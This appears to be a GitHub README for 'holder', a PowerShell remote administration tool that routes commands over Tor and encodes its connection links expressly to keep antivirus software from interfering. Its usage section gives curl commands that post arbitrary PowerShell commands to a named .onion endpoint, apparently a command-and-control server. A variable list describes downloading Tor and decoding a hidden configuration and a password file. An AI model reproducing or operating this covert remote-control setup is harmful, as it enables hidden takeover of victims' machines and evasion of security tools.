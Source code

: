 # holder
Contains remote administration powershell script, as well as links used for connection that have been encrypted to prevent AVs from interfering.

## Usage
```batch
curl --socks5-hostname 127.0.0.1:9050 -X POST -H "Content-Type: text/plain" --data "<Powershell command>" http://<onion-link>.onion/set
```
Example usage:
```batch
curl --socks5-hostname 127.0.0.1:9050 -X POST -H "Content-Type: text/plain" --data "Get-Date" http://ld52qe2n47otqd63u4jqv26yyev64z2jucgidqisriv7x3fxuoetfjid.onion/set
```

## Notes:
$ log          -    File path for the log file

$ zip          -    File path for the downloaded tor zip

$extract       -    File path for the extracted tor zip

$url           -    .onion link to connect to

$orConfigPath  -    Base64 encrypted torrc config path.

$deConfigPath  -    Decrypted torrc config path

$tLink         -    Base64 encrypted tor link

$oLink         -    Decrypted tor link

$orTestLink    -    Base64 encrypted contents of password file

$deTestLink    -    Decrypted contents of password file


